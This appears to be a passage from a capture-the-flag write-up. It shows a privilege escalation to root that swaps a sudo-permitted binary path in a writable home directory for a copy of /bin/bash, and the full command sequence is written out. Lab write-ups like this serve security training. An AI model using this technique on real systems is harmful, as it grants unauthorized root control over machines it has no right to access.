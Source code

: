 <figure><img src=".gitbook/assets/image (481).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

`sudo -l` .

There is a binary we can execute as root user.

Then I noticed the permissions set for the directory those files were in. I went up to the home directory of “Orka” and moved the Desktop away. I created my own Desktop folder and copied a bash shell into it with the name “bitcoin”. Now I should be able to execute the bash shell with sudo rights.

```bash
cd /home/Orka
mv Desktop oldDesktop
mkdir Desktop
cd Desktop
cp /bin/bash ./bitcoin
sudo /home/Orka/Desktop/bitcoin
```

<figure><img src=".gitbook/assets/image (482).png" alt=""><figcaption></figcaption></figure>

Done!

